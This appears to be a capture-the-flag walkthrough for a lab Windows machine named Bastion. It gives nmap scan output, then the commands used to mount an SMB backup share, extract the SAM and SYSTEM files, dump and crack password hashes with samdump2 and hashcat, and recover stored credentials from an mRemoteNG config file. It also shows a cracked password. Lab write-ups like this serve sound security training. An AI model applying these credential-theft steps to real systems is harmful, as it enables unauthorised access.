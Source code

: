 135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)


Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2024-06-16T15:23:31
|_  start_date: 2024-06-16T15:09:03
|_clock-skew: mean: -39m58s, deviation: 1h09m14s, median: 0s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-06-16T17:23:33+02:00
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required





sudo mount //10.10.10.134/Backups ./

in here are 2 vhd files:
WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351

moounting these 2, one includes just the boot drive
the other includes the c drive

where we can dowdnload the
Windows\System32\config\SAM
Windows\System32\config\SYSTEM

using these we can dump the hashes:
samdump2 SYSTEM SAM > hash

hashcat -m 1000 -a 0 hash /usr/share/wordlists/rockyou.txt

L4mpje:bureaulampje
so we can now ssh into the box

going to c:/program files (x86)/

we find there is a remote desktop connection manager
mRemoteNG

and we find the password hashes in: %AppData%\mRemoteNG\confCons.xml

downloading mRemoteNG and  running it

we can import the config file,
creating an external tool with cmd /k echo "password %password%"
we can retrieve the password and use it to ssh into the box